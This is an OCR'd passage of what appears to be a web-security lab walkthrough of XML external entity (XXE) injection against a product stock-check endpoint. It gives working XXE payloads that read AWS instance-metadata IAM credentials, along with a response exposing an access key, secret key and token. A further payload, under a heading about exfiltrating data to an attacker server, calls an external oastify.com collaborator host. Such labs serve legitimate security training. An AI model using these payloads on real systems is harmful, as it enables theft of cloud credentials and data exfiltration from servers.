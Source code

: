 ```xml
X-Frame-Options: SAMEORIGIN
Content-Length: 30
"Invalid product ID:
meta-data
"
```

* Request
```xml
POST /product/stock HTTP/2
...
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM
"http://169.254.169.254/latest/meta-
data/iam/security-credentials/admin">]>
<stockCheck>
<productId>
&xxe;
</productId>
<storeId>
1
</storeId>
</stockCheck>
```
* Response
```xml
HTTP/2 400 Bad Request
Content-Type: application/json;
charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 554
"Invalid product ID:
{
"Code" : "Success",
"Type" : "AWS-HMAC",
"AccessKeyId" : "P3A39PNDNgjytg9u6OfE",
"SecretAccessKey" :
"JgNDdDK6aOFCVkA8shPlr4t9saM0wVo63KGimF1F",
"Token" :
"SKh40MomJcV3zUyrlr9j26Cl5dTs6jWvVU3jmztTiG
...
```

#### Exfiltrate Sensitive Data To An Attacker Server

* Request
```xml
POST /product/stock HTTP/2
...
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM
"http://5697t6jfs9qkgsaggzopz5qjgam1aty
i.oastify.com"> ]>
<stockCheck>
<productId>
&xxe;
</productId>
<storeId>
1
</storeId>
</stockCheck>
```
